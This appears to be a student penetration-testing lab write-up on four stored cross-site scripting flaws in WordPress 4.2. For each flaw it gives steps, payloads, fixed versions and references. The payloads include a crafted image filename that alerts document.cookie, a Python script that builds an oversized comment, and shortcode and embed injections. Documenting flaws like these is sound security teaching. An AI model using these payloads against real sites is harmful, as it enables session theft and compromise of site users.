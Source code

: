 # Week 7 & 8 - Wordpress Penetration testing

## Vulnerability 1:
Authenticated Stored Cross-Site Scripting via Image Filename

Steps:
1. Intro -The XSS code can be inserted as a crafted filename of any post attachment. This post when viewed can cause malicious actions to occur on the viewers computer.
2. The file name given to the image to be used here is:
<img src=a onerror=alert(document.cookie)>.jpg
3. The image is uploaded in a post as an attachment file.
4. When the post is viewed an alert pops up on the viewers screen.

Vulnerability Type:
Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.10

References: 
https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html

![](Week_7.gif)

## Vulnerability 2:
Unauthenticated Stored Cross Site Scripting:

Steps:
1. Intro - A text string that is longer than the SQL specified text field can lead to truncation and malformed HTML, opening up opportunities for XSS.
2. Create a string longer than the specified 64k character limit. Upoun truncation this renders as malformed HTML. Browsers try to fix this which leads to interpretation of the onmouseover exploit.
3. Create the string using the following python code to generate a file:

out = "<a title='xonmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  "
with open('xss.txt','a') as f:
    f.write(out)
    for i in range(64*1024):
        f.write('X')
    f.write("</a>")

4. Use the string generated in a comment on WP.
5. View the comment to get the alerts(pop-ups) due to XSS.

Vulnerability Type:
Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.1

References:
https://wpvulndb.com/vulnerabilities/7945
http://klikki.fi/adv/wordpress2.html

![](comment_xss.gif)
    
## Vulnerability 3:
Authenticated Shortcode Tags Cross-Site Scripting

Steps:
1. Intro - Shortcode tags can be mixed with HTML to lead to malformed HTML, bypassing KSES validation and opening up XSS. Can lead to persistant XSS.

2. Enter the following code ina WP post:
TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>

3. View post to get XSS.

Vulnerability Type: Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.5

References: 
http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714

![](authenticated_shortcode_tage_xss.gif)

## Vulnerability 4:
Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

Steps:
1. Intro - A stored XSS vulnerability in YouTube Embed 3.3.2 (and possibly earlier versions) allows admin users to compromise other admins and super admins. YouTube Embed is a WordPress plugin with over 30,000 active installs.
2. Embed the following link into a WP post: 
[embed src='http://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
3. View post to get XSS.

Vulnerability Type: Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.13

References: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
https://packetstormsecurity.com/files/133340/WordPress-YouTube-Embed-3.3.2-Cross-Site-Scripting.html

![](youtube_embed_xss.gif)
